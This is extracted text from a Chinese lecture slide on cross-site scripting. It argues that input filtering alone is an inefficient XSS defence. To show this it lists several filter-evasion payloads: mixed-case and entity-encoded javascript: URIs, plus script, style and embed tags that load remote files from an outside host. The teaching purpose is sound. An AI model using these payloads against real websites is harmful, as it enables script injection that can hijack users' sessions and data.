

主讲：枕边月亮
主讲：枕边月亮
主讲：枕边月亮
主讲：枕边月亮
主讲：枕边月亮

跨站脚本攻击
4
XSS漏洞的防范—过滤
如果只采用过滤，很难考虑完备：
<SCRIPT>alert("XSS");</SCRIPT>

<SCRIPT SRC=http://bsp.com/xss.js></SCRIPT>
<IMG SRC=JaVaScRiPt:alert(&quot;XSS&quot;)>
¼script¾alert(¢XSS¢)¼/script¾
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>

<STYLE>@import'http://bsp.com/xss.css';</STYLE>
<EMBED SRC=http://bsp.com/xss.swf AllowScriptAccess="always"></EMBED>

综合起来有 91种HTML标签, 十多种编码方式, 数种对象类型…  过滤是一种低效的方法！